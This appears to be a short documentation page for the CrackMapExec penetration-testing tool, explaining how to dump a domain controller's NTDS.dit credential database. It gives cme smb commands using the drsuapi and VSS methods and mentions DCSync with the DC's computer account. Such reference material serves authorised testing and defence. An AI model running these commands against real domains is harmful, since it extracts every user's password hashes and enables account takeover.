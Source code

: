 # Dump NTDS.dit

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```
2 methods are available:   
(default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with   
						additional drsuapi calls to convert the resultant linked-lists into readable format  
			vss - Uses the Volume Shadow copy Service  
```

```
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users --enabled
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
You can also DCSYNC with the computer account of the DC
{% endhint %}
